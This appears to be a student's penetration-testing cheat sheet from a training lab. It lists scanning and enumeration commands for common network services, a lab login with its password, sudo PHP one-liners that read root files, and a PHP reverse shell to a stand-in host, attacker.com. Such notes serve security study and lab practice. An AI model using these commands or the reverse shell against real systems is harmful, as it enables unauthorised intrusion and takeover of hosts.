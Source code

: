 # Enumeration 
## Scanning

### All
	nmap -sV <IP>
	All Ports - nmap -sV -sC -p- 10.129.42.253
	Banner Grab - nc -vv -n -w1 <IP> 31337
	Vuln script - sudo nmap <IP> -p <PORT> -sV --script vuln 
	SPORT Masq - sudo nmap <IP> -source-port 53
	
### Web
	nmap -sV --script=http-enum -oA <IP_HTTPENUM> <IP>
	nikto -host http://<IP>
	gobuster dir -u http://<IP> --wordlist /usr/share/dirb/wordlists/common.txt
	Banner Grab - curl -IL https://www.inlanefreight.com
	Webserver version/framework/application - whatweb 10.10.10.121
	^^ but network - whatweb --no-errors 10.10.10.0/24
	
### FTP
	all files - wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
	nc -nv 10.129.14.136 21
	telnet 10.129.14.136 21
	ftp 10.129.14.136
	sudo nmap -sV -p21 -sC -A 10.129.14.136
	encrytped connection - openssl s_client -connect <FQDN/IP>:21 -starttls ftp	
	
### SMB
	Connect to SMB Share - smbclient \\\\10.129.42.253\\users
	Connect to SMB with user - smbclient -U bob \\\\10.129.42.253\\users
	enum4linux-ng.py <FQDN/IP> -A
	SMB Shares 
		crackmapexec smb <FQDN/IP> --shares -u '' -p ''	
		smbmap -H <FQDN/IP>	
		smbclient -N -L \\\\10.129.42.253
		user enum - impacket-samrdump.py <FQDN/IP>
		rpc connect - rpcclient -U "" <FQDN/IP>
			querydominfo
			srvinfo
			netsharegetinfo sambashare
		
### NFS
	showmount -e <FQDN/IP>
	mount -t nfs <FQDN/IP>:/<share> ./target-NFS/ -o nolock
	umount ./target-NFS
	
### DNS
	Get Seclists - git clone https://github.com/danielmiessler/SecLists
	add dns server such as 1.1.1.1 to /etc/resolv.conf
	gobuster dns - gobuster dns -d inlanefreight.com -w 
	dig ns <domain.tld> @<nameserver>	NS request to the specific nameserver.
	dig any <domain.tld> @<nameserver>	
	dig axfr <domain.tld> @<nameserver
	dnsenum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>
	
### SMTP
	telnet <FQDN/IP> 25	
	
### IMAP/POP3
	curl -k 'imaps://<FQDN/IP>' --user <user>:<password>
	openssl s_client -connect <FQDN/IP>:imaps
	openssl s_client -connect <FQDN/IP>:pop3s	
	
### SNMP
	SNMP Public - snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0
	SNMP Private - snmpwalk -v 2c -c private  10.129.42.253 
	SNMP Bruteforce - onesixtyone -c dict.txt 10.129.42.254
	snmpwalk -v2c -c <community string> <FQDN/IP>
	onesixtyone -c community-strings.list <FQDN/IP>
	braa <community string>@<FQDN/IP>:.1.*
	
### MySQL
	mysql -u <user> -p<password> -h <FQDN/IP>
	
### MSSQL
	mssqlclient.py <user>@<FQDN/IP> -windows-auth
	
### IPMI
	msf6 auxiliary(scanner/ipmi/ipmi_version)	
	msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)	
	
### Windows
	nbtstat -A <IP>
	nbtscan <IP>
	Eternalblue - nmap --script smb-os-discovery.nse -p445 10.10.10.40
	rdp-sec-check.pl <FQDN/IP>	
	xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>	
	evil-winrm -i <FQDN/IP> -u <user> -p <password>	
	wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"	
	
### Linux
	enum4linux
	ssh-audit.py <FQDN/IP>	
	
# Exploitation
## Web
	Upload Locations
		Apache
		/var/www/html/
		Nginx
		/usr/local/nginx/html/
		IIS
		c:\inetpub\wwwroot\
		XAMPP
		C:\xampp\htdocs\
## Access
	ssh -o
	xfreerdp +clipboard /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!
# Priv Esc
### PHP
	sudo php -r 'echo exec("id");'
	sudo php -r 'echo exec("find /root/*.txt");'
	sudo php -r 'echo exec("cat /root/root.txt");'

	export RHOST=attacker.com
	export RPORT=12345
	sudo php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'

	export CMD="/bin/sh"
	php -r 'system(getenv("CMD"));'

# Post-Exploit 
